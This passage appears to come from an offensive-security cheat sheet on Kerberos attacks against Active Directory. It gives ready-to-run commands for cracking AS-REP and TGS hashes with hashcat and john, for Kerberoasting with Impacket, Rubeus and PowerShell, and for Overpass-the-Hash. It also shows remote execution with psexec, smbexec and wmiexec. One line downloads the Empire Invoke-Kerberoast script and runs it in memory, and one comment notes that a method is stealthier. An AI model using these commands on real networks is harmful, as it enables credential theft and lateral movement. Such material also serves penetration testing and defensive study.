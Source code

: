 Cracking with dictionary of passwords:

```
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:

{% code overflow="wrap" %}
```
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```
{% endcode %}

With [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:

```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:

```
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
